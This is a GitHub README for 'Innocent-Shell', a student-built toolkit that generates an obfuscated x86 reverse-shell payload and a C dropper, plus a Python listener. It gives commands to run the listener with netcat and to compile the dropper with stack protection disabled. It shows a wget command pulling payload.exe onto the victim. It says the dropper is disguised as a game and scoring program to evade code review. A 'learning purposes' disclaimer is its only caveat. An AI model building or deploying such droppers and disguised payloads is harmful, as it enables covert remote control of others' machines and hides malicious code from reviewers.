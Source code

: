 # *Innocent-Shell*
*Innocent Shell is basically a fully integrated Obfuscated Payload Generator with a Dropper to Create a Reverse Shell on targets Device developed by Team*
*PORT KNOCKERS :*
* *<a href = "https://github.com/huzaifi0604">Muhammad Huzaifa*<br></br>
* *<a href = "https://github.com/dingavinga1">Abdullah Irfan</a>*<br></br>
* *<a href = "https://github.com/aishairfan">Aisha Irfan</a>*<br></br>
![Innocent Shell](ScreenCaptures/Screenshot_10.png)<br></br>
*The Project makes use of Python, C and x86 Assembly Languages WHERE*<br></br>
*➡️Reverse Shell Payload has been Developed using pure x86 assembly which is then parsed to develop the dropper for client/ target*<br></br>
*➡️Client side stager to Connect to the Server is developed using C Language.*<br></br>
*➡️And Lastly the Server for the Reverse Shell to Connect to and Execute Commands and Getting Reply has been done using Python3.*

## *How To Run The Project*
*To run the project 1st of all just clone this repository.*
* Clone Repository:
```
git clone https://github.com/huzaifi0604/Innocent-Shell
```
*After extracting the zip file you can use the following command to get the help menu for the Server.*
```
python innoshell.py -h
```
This command can be used to check the flags and respective arguments for running server and listening for the target. You can use
* *-lip --> Set Server's IP Address | -sip --> Set Client's IP Address*<br></br>
  * *In this case since we are using same machine you can use your local host 127.0.0.1.*
* *-lport --> Set Server's Port | -sport --> Set Client's Port*<br></br>
  * *Set Server's port lip to 9999 and clients port sip to 8080*<br></br>
* *-nc flag --> to open a saperate netcat listener using teh same server. Use 1 to set listener to open.*
## Run Innocent Shell Server
*Now open terminal and run the Innocent shell's server using the command below.*
```
python innocentshell.py -lip 127.0.0.1 -lport 9999 -sip 127.0.0.1 -sport 8080 -nc 1
```
*Server should start listening for connection after successfully running this command.*
![listner](ScreenCaptures/Screenshot_17.png)<br></br>
*Now traverse into the shell folder and use the following comand to build the dropper file.*
```
gcc -fno-stack-protector -z execstack dropper.c -o dropper
```
*Then use ``` ./dropper ``` to run the compiled C dropper for client.*<br></br>
*Now the server looking for the connection should have connected to the client and have output of something like this*
![output](ScreenCaptures/Screenshot_9.png)<br></br>
*Now you can use any command on Victim's Reverse Shell. I used wget command to downloaad a payload from my selfmade python http server using command*<br></br>
```
wget http://my localhost IP:8080/payload.exe
```
![payload wget](ScreenCaptures/Screenshot_3.png)<br></br>
*You can see that i have successfully downloaded my desired file into the victims system.*<br></br>
![ls](ScreenCaptures/Screenshot_4.png)<br></br>
## Assembly Payload
*Reverse Shell Payload to get executed on victim's device was written using x86 assembly language and then parsed into C*
![assembly](ScreenCaptures/Screenshot_7.png)<br></br>
## Payload Obfuscation
*As for the last but not the least part: Payload Obfuscation, the reverse shell payload was obfuscated using byte shifting and Defi Hellman Key Exchange
Mechanism to encrypt and decrypt the obfuscated payload with.*
![obfuscation](ScreenCaptures/Screenshot_8.png)<br></br>
*Similarly, The dropper on Clinet's Side has been developed in such a way that it depicts the program written for a game and scoring system
and user analyzing teh code cannot interpret anything malicious within the code easily.*
![game](ScreenCaptures/Screenshot_5.png)<br></br>
## Use At your Own Risk
*It is clearly being stated that all the files in the repository are allowed/ available for use but only for learning purposes. We won't be responsible for
 any type of malicious activity done using this repository's data.*
